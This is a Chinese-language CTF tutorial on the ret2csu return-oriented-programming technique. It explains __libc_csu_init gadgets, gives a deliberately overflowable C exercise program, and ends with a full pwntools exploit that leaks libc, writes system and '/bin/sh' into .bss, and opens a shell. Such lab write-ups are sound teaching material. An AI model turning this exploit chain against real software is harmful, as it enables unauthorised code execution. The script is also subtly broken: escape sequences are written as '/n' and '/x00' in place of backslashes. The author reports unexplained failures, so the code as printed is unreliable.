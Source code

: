 ```yaml
---
title: ret2csu
---
```


## 原理

在64位程序中，当函数参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，在大多时候下，当参数过多的时候，我们很难找到部署寄存器值的gadget。不过还有一些万能gadget能被我们利用，__libc_csu_init这个函数是用来对libc进行初始化操作的，下面先来看一下这个函数

![image-20210106101011242](/images/ret2csu/1.png)

![image-20210119152202060](/images/ret2csu/2.png)

从上面两个图可以看出不同版本的这个函数有一定的区别。但影响不大，重要的是如何构造payload，像write函数有三个参数，在64位系统下，我们需要往rdi，rsi，rdx三个寄存器中写入数据。注意看红色框2的部分的前三条汇编指令 ，其中edi是rdi的低32位，在绝大多数情况下也能达到相同的效果。而r15，r14，r13又可以由红色框2进行控制，通过利用这两段代码就能达到间接控制寄存器的功能了。

```assembly
mov     rdx, r15   
mov     rsi, r14
mov     edi, r13d
```
## 例题

题目来源：一步一步学ROP之linux_x64篇 – 蒸米，链接：https://github.com/zhengmin1989/ROP_STEP_BY_STEP/blob/master/linux_x64/level5。源代码如下：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
	write(STDOUT_FILENO, "Hello, World/n", 13);
	vulnerable_function();
}
```

有明显的栈溢出，使用ida64查看，plt表中只有write函数和read函数。

![image-20210119203354798](/images/ret2csu/3.png)

我们的目的是执行system("/bin/sh")，所以需要泄露libc函数的地址，可以通过write打印出来，通过计算偏移可以求出system函数的地址，然后使用read函数将真实的system函数地址和/bin/sh字符串写入bss段，最后调用system函数即可。

![image-20210119204007415](/images/ret2csu/4.png)

其中rbx设为0，是为了防止其干扰 call    qword ptr [r12+rbx*8]的执行，这样我们就可以通过控制r12的值进行控制函数执行流。将rbp设为1，是为了不让这句代码jnz     short loc_4005F0进行跳转，原因是rbx最初为0，然后又加1了，所以rbx的值为1，cmp rbx，rbp是比较rbx和rbp的大小，jnz是rbx != rbp时才跳转，我们不希望它跳转，所以控制它俩相等。

同理，可继续构造payload。

![image-20210119204841035](/images/ret2csu/5.png)

可能有人会有疑问，为什么要将system函数地址写入bss段这么麻烦，是因为这行代码call    qword ptr [r12+rbx*8]是间接跳转，也就是先将r12地址的值取出来，再进行跳转。最后的效果就是，从bss_addr中取出system函数的地址，再跳转到system函数处。

![image-20210119204946143](/images/ret2csu/6.png)

最终的payload，其中有几个玄学的点，开debug模式就会失败，第三个payload使用cyclic(0x38)会失败，通过LibcSeacher找函数偏移也会失败。（暂且找不到原因）

```python
from pwn import *

#context.log_level = 'debug'

p = process('./level5')
elf = ELF('./level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

write_got = elf.got['write']
read_got = elf.got['read']
main_addr = 0x400564
bss_addr = 0x601028
gadget1 = 0x400606
gadget2 = 0x4005F0

payload1 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got)
payload1 += p64(8) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload1)
sleep(1)

write_addr = u64(p.recv(8))
sys_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])

payload2 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(0) + p64(bss_addr)
payload2 += p64(16) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload2)
sleep(1)

p.send(p64(sys_addr))
p.send("/bin/sh/x00")


payload3 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr + 8) + p64(0)
payload3 += p64(0) + p64(gadget2) + '/x00' * 0x38 + p64(main_addr)

sleep(1)
p.sendlineafter('/n', payload3)

p.interactive()
```

